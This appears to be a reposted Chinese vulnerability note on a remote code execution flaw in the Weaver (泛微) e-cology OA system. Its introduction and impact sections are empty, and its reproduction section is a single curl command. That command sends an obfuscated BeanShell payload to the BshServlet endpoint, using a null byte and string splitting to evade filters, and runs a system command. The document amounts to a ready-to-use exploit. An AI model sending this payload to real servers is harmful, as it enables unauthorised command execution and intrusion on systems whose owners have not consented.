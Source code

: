 # 泛微OA管理系统RCE漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3330](https://www.zhihuifly.com/t/topic/3330)

# 泛微OA 管理系统RCE漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
curl http://0-sec.org:8000/weaver/bsh.servlet.BshServlet -d 'bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw' 
```